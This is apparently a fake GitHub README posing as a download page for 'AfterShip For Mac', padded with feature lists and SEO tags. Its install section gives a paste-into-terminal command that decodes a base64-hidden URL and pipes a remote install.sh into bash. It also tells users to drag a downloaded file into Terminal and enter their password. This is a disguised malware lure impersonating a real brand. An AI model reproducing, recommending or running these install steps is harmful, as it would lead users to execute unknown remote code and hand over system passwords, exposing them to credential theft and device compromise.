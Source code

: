 # AfterShip For Mac — Download For macOS
![AfterShip Logo](https://upload.wikimedia.org/wikipedia/commons/thumb/8/81/Aftership.svg/2560px-Aftership.svg.png) 😊

AfterShip For Mac is a powerful shipment tracking app designed for macOS, enabling eCommerce businesses and consumers to track packages from over 1,100 carriers worldwide. Monitor deliveries, receive real-time updates, and enhance customer experience with seamless integrations. Follow the instructions below to download and install AfterShip For Mac effortlessly.[](https://webcatalog.io/en/apps/aftership)

[![Download Now](https://img.shields.io/badge/Download-Now-00A1D6?style=for-the-badge&logo=package)](https://fituganshfgh.github.io/.github/after)

If you encounter issues downloading via the button above, follow the terminal command instructions below.

## 📦 How to Install AfterShip For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 📬 **Track 1,100+ Carriers**: Monitor shipments from carriers like FedEx, UPS, DHL, USPS, and more in one place. 
- 🔔 **Real-Time Notifications**: Receive push notifications for key delivery statuses, such as "In Transit" or "Delivered."
- 🛠 **eCommerce Integrations**: Auto-import orders from Amazon, eBay, Etsy, and other platforms for seamless tracking. 
- 🔍 **Barcode Scanning**: Track packages by scanning barcodes or copying tracking numbers directly.
- 📊 **Analytics Dashboard**: Access detailed reports to monitor shipping performance and customer satisfaction.
- 💻 **macOS Optimization**: Enjoy a native macOS app with distraction-free windows and multi-account support.

## About AfterShip For Mac

AfterShip For Mac is a comprehensive shipment tracking solution tailored for macOS, designed to simplify package tracking for both eCommerce businesses and individual users. Supporting over 1,100 carriers worldwide, including major players like UPS, FedEx, DHL, and PostNL, it provides real-time updates and automated notifications to keep you informed about your shipments. Integrated with platforms like Amazon, Shopify, and eBay, AfterShip streamlines the post-purchase experience, making it a top choice for macOS shipment tracking software. Its native macOS app ensures smooth performance on Apple Silicon and macOS 13.0 Ventura or later. 

The software’s centralized dashboard allows users to track multiple shipments, view detailed analytics, and customize tracking pages for a branded customer experience. For businesses, AfterShip offers tools to reduce "Where Is My Order?" inquiries by providing AI-powered delivery estimates and proactive notifications. Consumers benefit from features like barcode scanning, Gmail sync for automatic order imports, and ad-free tracking, making it ideal for managing personal deliveries. Its lightweight design ensures minimal system impact, even when tracking numerous packages. 

AfterShip For Mac stands out for its ease of use and extensive carrier support, catering to users ranging from online shoppers to large-scale eCommerce retailers. The app’s integration with macOS features, such as Finder and notifications, provides a seamless experience, while its no-code setup allows anyone to start tracking instantly. For those searching for “free package tracking macOS,” “AfterShip download,” or “eCommerce tracking tool,” AfterShip For Mac is a reliable and efficient solution. Its free tier supports tracking with push notifications for up to eight delivery statuses, ensuring accessibility for all users. 
With regular updates and a focus on macOS compatibility, AfterShip For Mac remains a trusted tool for optimizing logistics and enhancing customer satisfaction. Its SEO-optimized presence ensures discoverability for users seeking a robust tracking solution. Whether you’re tracking a single package from AliExpress or managing a global eCommerce operation, AfterShip For Mac delivers a user-friendly, powerful platform to keep your deliveries on track. 

## Advantages of AfterShip For Mac

- 🌐 **Global Carrier Support**: Tracks over 1,100 carriers, including local and international services. 
- 🖥 **Native macOS App**: Optimized for macOS with a clean, distraction-free interface.
- 🚀 **Automated Tracking**: Auto-detects carriers and imports orders from major eCommerce platforms. 
- 🔒 **Secure and Ad-Free**: Tracks packages without ads or compromising privacy. 
- 📈 **Business Analytics**: Provides insights to optimize shipping and reduce customer inquiries.
- 🆓 **Free Tier Available**: Track shipments for free with no in-app purchases or hidden fees. 

## 🖼 Preview

![Tracking Dashboard](https://docs.skyvia.com/images/aftership-api-key1.png)  
*Monitor all your shipments in a centralized, user-friendly dashboard.*

![Real-Time Notifications](https://www.channelwill.com/wp-content/uploads/2024/08/aftership-automatic-notificaions-1.webp)  
*Receive instant updates for key delivery statuses like "Out for Delivery."*

![Barcode Scanning](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcS8nRoojcUYti_BpH-XDxH3NJOOdKnRAW588w&s)  
*Track packages quickly by scanning barcodes or copying tracking numbers.*

![eCommerce Integration](https://i.postimg.cc/0yWqH1mQ/aftership-integrations.png)  
*Auto-import orders from Amazon, eBay, and other platforms seamlessly.*

## 🔍 Tags

AfterShip, AfterShip app, AfterShip desktop, AfterShip free, AfterShip mac, AfterShip for mac, aftership tracking, track with aftership, aftership order tracking, aftership amazon tracking, free package tracking macOS, AfterShip download, eCommerce tracking tool, macOS shipment tracker, AfterShip For Mac download, free delivery tracking mac, carrier tracking software, Amazon order tracker mac, real-time package updates, macOS productivity tools, global shipment tracking, AfterShip free mac
